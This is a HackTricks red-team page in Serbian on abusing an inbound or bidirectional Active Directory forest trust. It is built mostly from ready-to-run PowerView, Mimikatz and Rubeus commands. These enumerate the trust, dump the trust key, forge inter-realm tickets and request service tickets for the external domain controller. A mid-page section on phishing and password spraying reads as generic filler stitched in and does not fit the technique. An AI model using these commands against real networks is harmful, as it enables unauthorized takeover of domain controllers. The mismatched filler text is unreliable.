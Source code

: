 # External Forest Domain - OneWay (Inbound) or bidirectional

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

U ovom scenariju spoljni domen vam veruje (ili se međusobno veruju), tako da možete dobiti neku vrstu pristupa nad njim.

## Enumeracija

Prvo od svega, morate **enumerisati** **poverenje**:

```powershell
Get-DomainTrust
SourceName      : a.domain.local   --> Current domain
TargetName      : domain.external  --> Destination domain
TrustType       : WINDOWS-ACTIVE_DIRECTORY
TrustAttributes :
TrustDirection  : Inbound          --> Inboud trust
WhenCreated     : 2/19/2021 10:50:56 PM
WhenChanged     : 2/19/2021 10:50:56 PM

# Get name of DC of the other domain
Get-DomainComputer -Domain domain.external -Properties DNSHostName
dnshostname
-----------
dc.domain.external

# Groups that contain users outside of its domain and return its members
Get-DomainForeignGroupMember -Domain domain.external
GroupDomain             : domain.external
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=domain,DC=external
MemberDomain            : domain.external
MemberName              : S-1-5-21-3263068140-2042698922-2891547269-1133
MemberDistinguishedName : CN=S-1-5-21-3263068140-2042698922-2891547269-1133,CN=ForeignSecurityPrincipals,DC=domain,
DC=external

# Get name of the principal in the current domain member of the cross-domain group
ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1133
DEV\External Admins

# Get members of the cros-domain group
Get-DomainGroupMember -Identity "External Admins" | select MemberName
MemberName
----------
crossuser

# Lets list groups members
## Check how the "External Admins" is part of the Administrators group in that DC
Get-NetLocalGroupMember -ComputerName dc.domain.external
ComputerName : dc.domain.external
GroupName    : Administrators
MemberName   : SUB\External Admins
SID          : S-1-5-21-3263068140-2042698922-2891547269-1133
IsGroup      : True
IsDomain     : True

# You may also enumerate where foreign groups and/or users have been assigned
# local admin access via Restricted Group by enumerating the GPOs in the foreign domain.
```

U prethodnom nabrajanju je utvrđeno da je korisnik **`crossuser`** unutar grupe **`External Admins`** koji ima **Admin pristup** unutar **DC-a spoljnog domena**.

## Početni pristup

Ako **niste** pronašli nikakav **poseban** pristup vašeg korisnika u drugom domenu, i dalje možete se vratiti na AD metodologiju i pokušati **privesc sa neprivilegovanog korisnika** (kao što je na primer kerberoasting):

Možete koristiti **Powerview funkcije** za **nabrajanje** drugog domena koristeći `-Domain` parametar kao u primeru:

```powershell
Get-DomainUser -SPN -Domain domain_name.local | select SamAccountName
```

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Impersonacija

### Prijavljivanje

Korišćenjem redovne metode sa pristupnim podacima korisnika koji ima pristup spoljnom domenu, trebali biste moći da pristupite:

```powershell
Enter-PSSession -ComputerName dc.external_domain.local -Credential domain\administrator
```

### Zloupotreba SID istorije

Takođe možete zloupotrebiti [**SID istoriju**](sid-history-injection.md) preko poverenja između šuma.

Ako se korisnik migrira **iz jednog šuma u drugi** i **SID filtriranje nije omogućeno**, postaje moguće **dodati SID iz drugog šuma**, i ovaj **SID** će biti **dodat** u **korisnikov token** prilikom autentifikacije **preko poverenja**.

{% hint style="warning" %}
Kao podsetnik, možete dobiti ključ za potpisivanje sa

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.domain.local
```
{% endhint %}

Možete **potpisati** **pouzdanim** ključem **TGT impersonating** korisnika trenutne domene.

```bash
# Get a TGT for the cross-domain privileged user to the other domain
Invoke-Mimikatz -Command '"kerberos::golden /user:<username> /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:C:\path\save\ticket.kirbi /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```

### Potpuno preuzimanje identiteta korisnika

U ovom scenariju, napadač ima potpunu kontrolu nad korisnikovim nalogom i može se predstavljati kao taj korisnik. Ovo omogućava napadaču da pristupi svim resursima i privilegijama koje korisnik ima.

Da biste izvršili ovu tehniku, pratite sledeće korake:

1. Napadač preuzima korisnikovu lozinku ili koristi tehnike kao što su "phishing" ili "password spraying" da bi je otkrio.
2. Napadač se prijavljuje na sistem koristeći korisnikove legitimne kredencijale.
3. Nakon prijave, napadač ima potpunu kontrolu nad korisnikovim nalogom i može izvršavati sve radnje koje korisnik može.
4. Napadač može pristupiti svim resursima koji su dostupni korisniku, uključujući fajlove, mrežne resurse i privilegije.
5. Napadač može izvršavati bilo koje akcije u ime korisnika, uključujući slanje e-pošte, pristupanje aplikacijama i manipulaciju podacima.

Važno je napomenuti da je ova tehnika ilegalna i da se koristi samo u okviru etičkog hakovanja ili testiranja bezbednosti sistema uz dozvolu vlasnika sistema.

```bash
# Get a TGT of the user with cross-domain permissions
Rubeus.exe asktgt /user:crossuser /domain:sub.domain.local /aes256:70a673fa756d60241bd74ca64498701dbb0ef9c5fa3a93fe4918910691647d80 /opsec /nowrap

# Get a TGT from the current domain for the target domain for the user
Rubeus.exe asktgs /service:krbtgt/domain.external /domain:sub.domain.local /dc:dc.sub.domain.local /ticket:doIFdD[...snip...]MuSU8= /nowrap

# Use this inter-realm TGT to request a TGS in the target domain to access the CIFS service of the DC
## We are asking to access CIFS of the external DC because in the enumeration we show the group was part of the local administrators group
Rubeus.exe asktgs /service:cifs/dc.doamin.external /domain:dc.domain.external /dc:dc.domain.external /ticket:doIFMT[...snip...]5BTA== /nowrap

# Now you have a TGS to access the CIFS service of the domain controller
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
